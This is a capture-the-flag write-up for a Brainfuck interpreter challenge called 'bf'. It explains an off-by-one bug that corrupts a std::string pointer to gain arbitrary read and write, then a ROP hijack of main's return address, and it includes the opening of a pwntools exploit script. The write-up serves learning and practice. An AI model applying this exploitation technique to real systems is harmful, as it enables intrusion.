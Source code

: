 include pwn challenge bf, vm, no_write, note,mginx and re challenge cipher

## bf

A brain fuck interpreter written by c++, the structure that program used :

```cpp
struct brain_fck{
	char data[0x400];	// data
	string code;	// brain fuck code
};
```

`'>'` op caused `off_by_one` ：

![t1wWlV.png](https://s1.ax1x.com/2020/05/31/t1wWlV.png)

The  compare condition is `v21 > &v25` not  `>=`，so we can read or modify the brain_fck.code's lowbit.

`brain_fck.code` is a string，string class almost look like(Of course, I omitted most of the class )：

```cpp
class string{
    char* ptr;
    size_t len;
    char buf[0x10];
}
```

string class will put the characters in the buf when string.length() less then 16,it means ptr pointer to itself 's buf; And it will use malloc when the string length large or equal 16.

As we can modify the brain_fck.code's lowbit，it means we can modify brain_fck.code.ptr to arbitrary write and read.

Because the brain_fck.code is in stack in the first, we just make sure that the brain fuck code we input length less then 16 to make the brain_fck.code.ptr point to stack memory instead of heap.

So a basic exploit as follows: 

- leak brain_fck.code.ptr's lowbit
- leak stack and libc address
- modify ret value of main function
- hijack it with ROP

exp：

```python
from pwn import *
import sys

context.arch = 'amd64'

def write_low_bit(low_bit,offset):
	p.recvuntil("enter your code:\n")
	p.sendline(",[>,]>,")
	p.recvuntil("running....\n")
	p.send("B"*0x3ff+'\x00')
	p.send(chr(low_bit+offset))
	p.recvuntil("your code: ")
	p.recvuntil("continue?\n")
	p.send('y')
	p.recvuntil("enter your code:\n")
	p.sendline("\x00"*0xf)
	p.recvuntil("continue?\n")
	p.send('y')

def main(host,port=6002):
```